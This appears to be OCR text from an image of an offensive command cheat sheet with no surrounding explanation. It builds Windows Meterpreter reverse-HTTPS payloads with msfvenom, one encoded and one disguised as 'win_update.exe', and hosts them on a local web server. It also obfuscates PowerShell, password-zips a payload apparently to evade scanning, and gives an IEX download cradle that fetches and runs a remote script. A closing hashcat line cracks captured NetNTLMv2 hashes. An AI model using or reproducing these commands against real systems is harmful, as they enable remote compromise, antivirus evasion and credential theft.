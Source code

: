 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation


http://192.168.1.128:8080/update_pacth.exe

zip --password SuaSenhaForte payload_protegido.zip payload_encoded.exe

IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.128:8080/payload.ps1')

hashcat -m 5600 -a 0 hashcapturado.txt /usr/share/wordlists/rockyou.txt --force
